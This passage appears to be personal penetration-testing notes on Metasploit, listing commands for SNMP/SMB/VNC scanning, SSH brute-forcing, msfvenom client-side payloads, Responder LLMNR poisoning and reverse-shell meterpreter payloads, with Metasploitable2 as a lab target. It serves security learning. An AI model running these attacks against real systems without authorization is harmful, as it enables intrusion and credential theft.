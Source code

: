      - To check for routers and sniff their messages: e.g. `use auxiliary/scanner/snmp/snmp_login` and set up the hosts to sweep: `set RHOSTS 192.168.0.1-192.168.5.100` and to parallelise `set THREADS 10`
     - Windows patches enumeration, as there are known exploits: `use post/windows/gather/enum_patches`
     
## Vulnerability scanning
 - SMB login: when you have a pair usr:psw, you may look for where this pair works elsewhere. Run `use auxiliary/scanner/smb/smb_login` 
 - Running VNC servers without psw: `use auxiliary/scanner/vnc/vnc_none_auth`
 - Web scanner: 
     - **load the WMap plugin** with `load wmap` -- require connected db. Check [here](https://www.offensive-security.com/metasploit-unleashed/wmap-web-scanner/)
         In brief you can add a site to the WMap list (`wmap_sites -a URL`) and moving that site to the targets by id in `wmap_sites -l` (`wmap_targets -d 0`). Then you can run the scan with `wmap_run -t` and check the vunerabilities with `vulns`.
     - **load the NeXspose plugin** with `load nexpose` -- Require a NeXpose server to run. For details, check [here](https://www.offensive-security.com/metasploit-unleashed/nexpose-msfconsole/). For example, run `services` and `vulns` once loaded
     - **load the Nessus plugin** with `load nessus` -- rerquires Nessus server to run in the background. Check [here](https://www.offensive-security.com/metasploit-unleashed/nessus-via-msfconsole/).
     - **Fuzzers** are program to test the input of applications for overflow bugs. Can write your own that checks FTPs andd IMAPs.
     
## Gain access

### SSH password cracking -- bruteforce
The idea is to try out a database of usr:psw and see if one of them works. So, we first need to create a file with those parirs, one per line, separated by a space.
Once the **ssh host** has been identified, we need to run the `auxiliary/scanner/ssh/ssh_login` and set the `USERPASS_FILE` to ours. Then check the open `sessions -i`.

### Client-side exploits
This technique consists in creating executables and tricking the victim to get and execute them. The main tool is `msfvenom`. You can `search` for it. Check [here](https://www.offensive-security.com/metasploit-unleashed/binary-payloads/).

### LLMNR, NBT-NS and mDNS

**Responder** is a LLMNR, NBT-NS and MDNS poisoner.
You can get it with `git clone https://github.com/lgandx/Responder.git` and you can run it via
```
python Responder.py -h
sudo python Responder.py -i 127.0.0.1 -I eth0 -rPv
```

## Take control

### Meterpreter session
In general, once a vulnerability has been identified, it can be exploited. The payload can be a meterpreter session activation.
For wndows, you can use 
```
set payload windows/meterpreter/reverse_tcp   
```
For unix use:
```
set payload cmd/unix/reverse
```
In the pro version, there are also many plugins that you can load (e.g. `load kiwi`).
If you managed to open up a **shell session**, for example using `use exploit/unix/misc/distcc_exec` on Metasploitable2, then execute `sessions -u ID` to **upgrade to the meterpreter.**
